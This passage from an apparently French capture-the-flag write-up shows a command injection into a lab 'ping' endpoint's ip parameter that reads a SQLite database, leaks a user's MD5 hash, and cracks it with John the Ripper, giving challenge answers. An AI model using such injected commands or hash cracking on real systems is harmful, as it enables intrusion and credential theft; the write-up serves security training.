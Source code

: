 Nous pouvons tout de même utiliser la commande `cat` afin d’afficher le contenu de celui-ci.

```bash
curl -i "http://target:8081/ping?ip=127.0.0.1%3Becho%20vuln_backtick%60cat%20utech.db.sqlite%60"
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 147
ETag: W/"93-594eIY8lmtfDeu2ln6BdpbW24SI"
Date: Sun, 14 Sep 2025 10:28:11 GMT
Connection: keep-alive

���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

On obtient finalement le hash suivant qui semble être du MD5 (ou en tout cas de la famille des MD) 

`f357a0c52799563c7c7b76c1e7543a32`

### Q7 - Quel est le hash du mot de passe du premier utilisateur ?

Réponse : `f357a0c52799563c7c7b76c1e7543a32`

Bien, nous avons donc trouvé un hash sûrement d’un mot de passe de l’utilisateur `r00t` étant donné que nous l’avons trouvé dans une base donnée et qu’il était associé à ce nom d’utilisateur.

Maintenant que nous disposons de ce hash nous pouvons tenter de le cracker à l’aide de différents outils tels que Hashcat, JohnTheRipper ou encore Crackstation (outil en ligne).

Par pure impression, j’ai précédemment dis que le hash semblait être un hash MD5 (caractères utilisés, longueur). J’ai alors essayer dans un premier temps, de cracker le hash à l’aide de John et en spécifiant l’option  `--format=Raw-MD5`.

```bash
echo 'f357a0c52799563c7c7b76c1e7543a32' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5                 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
n100906          (?)     
1g 0:00:00:00 DONE (2025-09-14 12:31) 4.347g/s 22801Kp/s 22801Kc/s 22801KC/s n102983..n0valyf
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Mon impression était bonne (c’est surtout que les hash MD5 sont très courants dans ces challenges mais bon 🫠) → John a réussi a cracker le hash `f357a0c52799563c7c7b76c1e7543a32` qui correspond au mot `n100906` en MD5.

### Q8 - Quel est le mot de passe associé à ce hash ?
